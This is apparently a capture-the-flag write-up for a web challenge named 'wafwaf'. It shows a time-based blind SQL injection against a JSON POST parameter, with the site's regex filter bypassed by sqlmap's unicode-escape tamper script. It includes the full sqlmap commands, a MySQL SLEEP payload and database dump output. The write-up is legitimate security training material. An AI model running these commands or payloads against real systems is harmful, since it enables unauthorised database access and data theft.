



# wafwaf


# TLDR
- Read the source code from the index page, and understood that there is a possibility of SQL injection on a POST method with a JSON encoded parameter payload.
- The requests containing SQL syntax were filtered using a regular expression.
- To bypass the filter I used an existing tamper script provided as an argument to `sqlmap`.
- `sqlmap` acquired the flag using time-based blind SQL injection attack after some time.
#### Keywords: `sqlmap`, `time-based blind SQLi`, `JSON body`, `POST`, `--tamper=charunicodeescape`


# How to get the flag?
As soon as I opened the challenge, we got an error page. We can see that the server was running *nginx*.

I opened up developer console and refreshed the page. But, surprisingly it redirected to *index.php*. We had the source code of the challenge. I proceeded to read the code carefully:
- There was a reference to *config.php*. This probably had the connection configuration to the database. I could not get anything from *config.php*.
- I could see that we had to make a POST request to *index.php*; `user` parameter being in the request body, to attempt an SQLi attack.
- There was a regexp-based filter (kind of like web application firewall; hence, the challenge name wafwaf, maybe?) that would dump matches if it had SQL syntax. So, sending an SQL injection payload in clear text would not work.
- In case of a valid or invalid query we would not get any response dumped to anywhere. But, we could possibly make the page load longer based on query (see time-based SQLi [1]).



A little bit search on the internet led me to find the article on bypassing WAFs with json unicode escape sequences [2]. This looked exactly what I needed. I gave it a try using `sqlmap`:

```bash
$ sqlmap -u http://178.128.40.63:32080/ --data "{\"user\":\"*\"}"  --method POST --tamper=charunicodeescape
```

- `*` in --data argument's value indicates sqlmap injection point.
- `--tamper=charunicodeescape` argument indicates tampering script for the request's payload. For example, `SELECT` would be `\u0053\u0045\u004C\u0045\u0043\u0054`

Output:
```bash

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:42:16 /2021-01-02/

[10:42:16] [INFO] loading tamper module 'charunicodeescape'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] 
JSON data found in POST body. Do you want to process it? [Y/n/q] 
[10:42:20] [INFO] testing connection to the target URL
[10:42:20] [INFO] testing if the target URL content is stable
[10:42:20] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[10:42:20] [INFO] testing if (custom) POST parameter 'JSON #1*' is dynamic
[10:42:20] [WARNING] (custom) POST parameter 'JSON #1*' does not appear to be dynamic
[10:42:20] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[10:42:20] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
[10:42:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:42:21] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:42:21] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:42:22] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:42:22] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[10:42:22] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[10:42:23] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[10:42:23] [INFO] testing 'Generic inline queries'
[10:42:23] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:42:23] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[10:42:23] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[10:42:23] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:42:34] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[10:42:43] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:42:43] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:42:45] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 76 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"user":"' AND (SELECT 6697 FROM (SELECT(SLEEP(5)))biyG) AND 'QtYn'='QtYn"}
---
[10:43:04] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:43:04] [INFO] the back-end DBMS is MySQL
[10:43:04] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
[10:43:04] [INFO] fetched data logged to text files under '/home/vscode/.sqlmap/output/178.128.40.63'
[10:43:04] [WARNING] you haven't updated sqlmap for more than 274 days!!!

[*] ending @ 10:43:04 /2021-01-02/
```

I ran `sqlmap` again, this time to dump database names, tables etc. And after some time, I got the flag. All thanks to `sqlmap`.

```bash
$ sqlmap -u http://178.128.40.63:32080/ --data "{\"user\":\"*\"}"  --method POST --tamper=charunicodeescape --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.4#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:44:48 /2021-01-02/

[10:44:48] [INFO] loading tamper module 'charunicodeescape'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] 
JSON data found in POST body. Do you want to process it? [Y/n/q] 
[10:44:52] [INFO] resuming back-end DBMS 'mysql' 
[10:44:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"user":"' AND (SELECT 6697 FROM (SELECT(SLEEP(5)))biyG) AND 'QtYn'='QtYn"}
---
[10:44:52] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:44:52] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[10:44:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:44:52] [INFO] fetching current database
[10:44:52] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)     
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[10:45:03] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[10:45:14] [INFO] adjusting time delay to 1 second due to good response times
db_m8452
[10:45:42] [INFO] fetching tables for database: 'db_m8452'
[10:45:42] [INFO] fetching number of tables for database 'db_m8452'
[10:45:42] [INFO] retrieved: 2
[10:45:44] [INFO] retrieved: definitely_not_a_flag
[10:47:10] [INFO] retrieved: notes
[10:47:31] [INFO] fetching columns for table 'definitely_not_a_flag' in database 'db_m8452'
[10:47:31] [INFO] retrieved: 1
[10:47:32] [INFO] retrieved: flag
[10:47:46] [INFO] fetching entries for table 'definitely_not_a_flag' in database 'db_m8452'
[10:47:46] [INFO] fetching number of entries for table 'definitely_not_a_flag' in database 'db_m8452'
[10:47:46] [INFO] retrieved: 1
[10:47:48] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
HTB{w4f_w4fing_my_w4y_0utt4_h3r3}
Database: db_m8452
Table: definitely_not_a_flag
[1 entry]
+-----------------------------------+
| flag                              |
+-----------------------------------+
| HTB{w4f_w4fing_my_w4y_0utt4_h3r3} |
+-----------------------------------+

[10:50:31] [INFO] table 'db_m8452.definitely_not_a_flag' dumped to CSV file '/home/vscode/.sqlmap/output/178.128.40.63/dump/db_m8452/definitely_not_a_flag.csv'
[10:50:31] [INFO] fetching columns for table 'notes' in database 'db_m8452'
[10:50:31] [INFO] retrieved: 3
[10:50:35] [INFO] retrieved: id
[10:50:42] [INFO] retrieved: note
[10:50:59] [INFO] retrieved: assignee
[10:51:24] [INFO] fetching entries for table 'notes' in database 'db_m8452'
[10:51:24] [INFO] fetching number of entries for table 'notes' in database 'db_m8452'
[10:51:24] [INFO] retrieved: 1
[10:51:26] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
1
[10:51:30] [INFO] retrieved: admin
[10:51:47] [INFO] retrieved: wa^C
[10:51:58] [WARNING] Ctrl+C detected in dumping phase                                                                              
Database: db_m8452
Table: notes
[0 entries]
+------+------+----------+
| id   | note | assignee |
+------+------+----------+
+------+------+----------+

[10:51:58] [INFO] table 'db_m8452.notes' dumped to CSV file '/home/vscode/.sqlmap/output/178.128.40.63/dump/db_m8452/notes.csv'
[10:51:58] [INFO] fetched data logged to text files under '/home/vscode/.sqlmap/output/178.128.40.63'
[10:51:58] [WARNING] you haven't updated sqlmap for more than 274 days!!!

[*] ending @ 10:51:58 /2021-01-02/

```


# References
- [1] https://book.hacktricks.xyz/pentesting-web/sql-injection#exploiting-time-based-sqli
- [2] https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/